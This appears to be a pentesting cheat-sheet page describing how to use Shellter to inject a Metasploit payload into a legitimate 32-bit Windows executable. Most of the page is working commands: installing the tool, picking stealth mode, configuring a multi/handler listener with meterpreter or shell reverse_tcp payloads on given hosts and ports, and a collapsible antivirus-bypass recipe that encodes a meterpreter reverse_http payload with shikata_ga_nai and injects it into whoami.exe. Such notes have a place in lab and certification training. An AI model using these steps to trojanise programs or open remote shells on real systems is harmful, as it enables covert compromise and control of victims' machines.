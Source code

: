 # Shellter

### Installing shellter

```bash
sudo apt install shellter -y
```

### Usage

#### Choose operation mode&#x20;

* Auto (A)

#### PE Target

* file location of legitimate 32 bit Windows executable

{% hint style="info" %}
A copy of the legitimate exe will be saved in `Shellter_Backups\<name_of_exe>`
{% endhint %}

#### Enable Stealth Mode?

* Y

#### Use a listed payload or custom?&#x20;

* L

#### Set the relevant Lhost and Lports

### Setup Metasploit listener

```bash
use multi/handler
```

```bash
set payload windows/meterpreter/reverse_tcp
```

OR

```bash
set payload windows/shell/reverse_tcp
```

```bash
set lhost 192.168.131.52
set lport 443
```

```bash
run
```

<details>

<summary>Bypass AV (shikata_ga_nai)</summary>

```bash
$ cp /usr/share/windows-resources/binaries/whoami.exe .
$ msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.119.160 LPORT=80 -e x86/shikata_ga_nai -i 9 -f raw > met.bin

# sudo shellter
mode : A
file path : /home/kali/Documents/poultry/whoami.exe
stealth mode: N
payload select : C
payload : /home/kali/Documents/poultry/met.bin
dll loader? N
```

</details>


